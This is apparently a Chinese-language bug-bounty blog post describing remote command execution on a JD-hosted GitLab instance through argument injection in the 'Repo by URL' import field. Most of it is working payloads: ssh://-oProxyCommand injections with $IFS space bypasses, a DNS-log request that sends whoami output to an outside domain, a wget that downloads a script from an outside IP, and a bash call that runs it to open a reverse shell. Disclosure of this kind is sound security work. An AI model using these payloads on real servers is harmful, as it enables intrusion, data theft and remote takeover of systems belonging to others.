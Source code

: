 ```yaml
---
layout: post
title:  "jd众测gitlab远程命令执行"
---
```

# jd众测gitlab远程命令执行


http://monitor-fb.jd.com/users/sign_in 首先注册一个账号ahtest
![图片1](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/5/图片%201.jpg)<br />
然后创建一个项目，创建方式选择Repo by URL
![图片2](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/5/图片%202.jpg)<br />
这里由于gitlab本身的漏洞可以使用ssh://,这里可以绕过执行命令
poc: ssh://-oProxyCommand=要执行的命令/a
注意这里不能出现空格还有部分特殊字符，下面为fuzz最终绕过poc
ssh://-oProxyCommand=ping$IFS’jd.1.rs12.ga’/a
![图片3](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/5/图片%203.jpg)<br />
![图片4](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/5/图片%204.jpg)<br />
查看我的dnslog，成功收到dns解析请求日志
![图片5](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/5/图片%205.jpg)<br />
成功执行命令
查看是否为root的poc：ssh://-oProxyCommand=wget$IFS$9$(whoami).1.rs12.ga/a
讲远程站点的index.html内容换成wget下载反弹shell的脚本
ssh://-oProxyCommand=wget$IFS$945.78.54.37$IFS-O1.sh/a 
![图片6](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/5/图片%206.jpg)<br />
ssh://-oProxyCommand=bash$IFS'1.sh'/a 反弹回shell
![图片7](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/5/图片%207.jpg)<br />
